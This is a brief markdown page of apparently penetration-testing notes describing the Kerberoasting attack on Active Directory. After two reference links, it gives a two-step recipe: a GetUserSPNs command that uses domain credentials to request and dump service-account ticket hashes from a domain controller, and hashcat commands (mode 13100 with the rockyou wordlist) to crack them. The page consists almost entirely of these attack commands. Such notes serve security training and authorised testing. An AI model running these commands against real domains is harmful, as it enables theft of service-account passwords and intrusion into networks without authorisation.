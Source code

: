 # Kerberoasting Overview

## Resources

* [https://medium.com/@Shorty420/kerberoasting-9108477279cc](https://medium.com/@Shorty420/kerberoasting-9108477279cc)
* [https://www.redsiege.com/wp-content/uploads/2020/04/20200430-kerb101.pdf](https://www.redsiege.com/wp-content/uploads/2020/04/20200430-kerb101.pdf)

![](../../../.gitbook/assets/kerberoasting-overview.png)

## Kerberoasting Attack Overview

### Step 1: Get SPNs \(Service Principal Name\), Dump Hash

```bash
python getuserspns.py <DOMAIN/username:password> -dc-ip <ip of DC> -request
```

### Step 2: Crack the Hash

```bash
hashcat --help | grep Kerberos
hashcat -m 13100 kerberoasthash.txt rockyou.txt
```

